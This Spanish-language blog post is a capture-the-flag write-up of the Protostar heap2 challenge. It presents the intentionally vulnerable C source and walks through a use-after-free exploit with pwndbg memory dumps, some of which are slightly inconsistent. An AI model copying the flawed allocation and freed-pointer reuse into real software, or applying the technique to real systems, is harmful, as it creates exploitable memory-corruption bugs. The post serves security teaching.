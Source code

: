 ```yaml
---
layout: post
title: protostar heap2 - UAF (Use-After-Free)
author: c4rta
date: 2023-01-21
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, Heap, UAF]
image: /assets/img/heap2/waifu4.jpg
---
```

Este desafio es una introduccion una tecnica llamada Use-After-Free la cual basicamente ocurre cuando se hace referencia a la memoria despues de que haya sido liberada
{:.lead}


## Analizando el binario y explotacion

El codigo que nos proveen es este:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
 
struct auth {
  char name[32];
  int auth;
};
 
struct auth *auth;
char *service;
 
int main(int argc, char **argv)
{
  char line[128];
 
  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);
 
      if(fgets(line, sizeof(line), stdin) == NULL) break;
       
      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```
Vemos que el programa se queda en un bucle infinito gracias a ```while(1)```, ademas recibe 4 comandos: auth, reset, service y login.

Primeramente se esta declarando una estructuta llamada ```auth``` la cual tiene dos variables:

```c
struct auth {
  char name[32];
  int auth;
};
```
En la cual ```name``` es una arreglo de caracteres de 32 bytes.

De ahi nos vamos al primer if:

```c
if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
```
En el cual si el input es ```auth```, le asignaremos memoria con ```malloc()```, y el resto del input es tomado por la variable ```name``` de ```struct auth```

En el segundo if:

```c
if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
```
Lo que hace aqui es liberar memoria de el objeto ```auth``` 

En el tercer if:

```c
if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
```
Lo que hace es tomar el resto de la entrada y le asigna memoria con ```strdup```, la cual esta devuelve un puntero

Y el ultimo if:

```c
if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
```

Lo que hace es realizar una verificacion si el ```auth struct``` tiene un valor igual que 0.

Para resolver el desafio lo que hacer que hacer es pasar la condición de que auth->auth sea un valor que no sea cero, ya que en ninguna parte del código se le asigna un valor a auth->auth.

Asi que para resolver esta desafio tenemos que mostrar: ```you have logged in already!```

Aqui lo que se me ocurre hacer es asignar memoria con ```auth```, luego liberar le memoria con ```reset``` y despues dar un input usando el comando ```service```, lo suficientemente grande para para sobreescribir ```auth->auth```, esto hara que el programa intente acceder a ```auth struct``` pero ahora su memoria se libero y luego se sobreescribio con lo que le metimos con ```service``` y ahora ```auth->auth``` es diferente de 0

### Visualizandolo en gdb

Lo primero es ver el contenido de la memoria de auth cuando tiene un valor asignado a ```auth->name```, osea cuando se ingresa el comando ```auth```

Esto lo hare poniendo en breakpoint en ```0x08048a01``` que es donde se hace lo que dije arriba

Primeramente podemos ver como en ```EAX``` se almacena nuestro input:

```*EAX  0x804c818 ◂— 'c4rta\n'```

Y si mostramos el contenido del registro ```EAX``` podemos ver algo como esto:

```eax            0x804c818           134531096```

La memoria asignada por ```malloc()``` esta ubicada en ```0x804c818``` el cual se guardo en ```EAX``` que es el valor de retorno de ```malloc()``` que contiene nuestro input

Sin embargo, si mostramos unos cuantos bytes por debajo del valor de retorno de ```malloc()```, podemos ver esto:

```
pwndbg> x/20xb $eax-8 
0x804c810:	0x00	0x00	0x00	0x00	0x11	0x00	0x00	0x00
0x804c818:	0x63	0x34	0x72	0x74	0x61	0x0a	0x00	0x00
0x804c820:	0x00	0x00	0x00	0x00
```

Aqui quiero destacar el ```0x11```, el encabezado del ```chunk``` muestra que solo hay 16 bytes asignados (```0x00000011```), donde el bit LS es un indicador que indica que se ha asignado el fragmento anterior, (esto se conoce como la flag ```PREV_INUSE```), en lugar de los bytes necesario para ```auth struct``` , esto es por que en la línea 25, la llamada ```malloc()``` obtiene el tamaño del puntero con el mismo nombre que la estructura, y debido a que cada puntero tiene un tamaño de 4 bytes, ```malloc()``` asigna 4 bytes más los 8 bytes adicionales para el encabezado.

Ademas tambien podemos ver nuestro input el cual es:

```0x63	0x34	0x72	0x74	0x61```

Ahora es momento de saber que pasa si hacemos un ```reset``` y despues un ```login```

```
pwndbg> x /20xb $eax-8 
0x804c000:  0x00    0x00    0x00    0x00    0x11    0x00    0x00    0x00 
0x804c008:  0x00    0x00    0x00    0x00    0x0a    0x00    0x00    0x00 
0x804c010:  0x00    0x00    0x00    0x00    0xf1
```
Aqui ya se puso interesante la cosa, el objeto del heap esta alli (de ```0x11``` a ```0xf1``` el cual ```0xf1``` es llamado ```top chunk```), pero nuestro input ya no esta, entonces ahora veremos que pasa si creamos un nuevo objeto en el heap usando ```service``` pero pasandole un tamaño mas grande que 16 bytes, esto lo podemos hacer ya que la memoria despues de ```free()``` esta disponible para volverla a asignar:

```
[ auth = 0x804c818, service = (nil) ]
service AAAAAAAAAAAAAAAAAA
```

Podemos ver como se asigno en el espacio anterior, osea en ```auth```, esto es ya que tiene la misma direccion: ```0x804c818```, pero eso no es todo, tambien logramos sobreescribir ```auth->auth``` gracias a ```service``` , esto lo podemos ver si mostramos unos cuantos bytes desde ```0x804c818```:

```
pwndbg> x /64xb 0x804c818
0x804c818:	0x20	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x804c820:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x804c828:	0x61	0x61	0x61	0x0a	0x00	0x00	0x00	0x00
0x804c830:	0x00	0x00	0x00	0x00	0xd1	0x07	0x00	0x00
0x804c838:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c840:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c848:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c850:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```
Podemos ver como en la direccion ```0x804c828``` que es la de ```auth->auth``` ahora contiene ```0x61	0x61	0x61``` de mas


Y ahora aun que el objeto del heap se libero, el puntero a ```auth->auth``` no se anulo, y aun se usa, y dará como resultado un valor diferente de 0, asi que si continuamos la ejecucion vemos como ya obtuvimos la flag:

```
pwndbg> c
Continuing.
you have logged in already!
```

Y si fue como explotamos un UAF basico aprovechandonos de una sobreescritura con ```service``` para usar usar un ```chunk``` liberado anteriormente el cual ahora es llamado ```free chunk```

Eso ha sido todo, y tranquilo si no llegaste a entender lo que pasaba, por que ni yo ni nadie entiende estas cosas a la primera, pero con tiempo y diciplina se puede lograr. Realmente no me gustaria que te frustraras por algo asi, tu puedes. Gracias por leer ❤
